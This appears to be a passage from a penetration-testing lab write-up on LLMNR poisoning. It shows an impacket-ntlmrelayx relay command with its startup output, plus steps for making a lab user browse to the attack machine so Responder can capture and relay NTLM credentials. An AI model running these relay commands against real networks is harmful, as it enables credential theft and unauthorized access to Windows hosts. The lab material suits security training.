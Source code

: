 ```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ impacket-ntlmrelayx -tf targets.txt -smb2support   
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay enabled

[*] Servers started, waiting for connections

(...)
```

**Note:** The older version `0.9.19` of `ntlmrelayx` works reliably, whereas
newer versions break from time to time.

Now we need to wait for actual events so that `responder` can intercept the
traffic and relay the credentials to the host via `ntlmrelayx.py`. We log into
`THEPUNISHER` as user `fcastle` and navigate to our attack machine in the
Windows Explorer, in this case `10.0.2.5`.
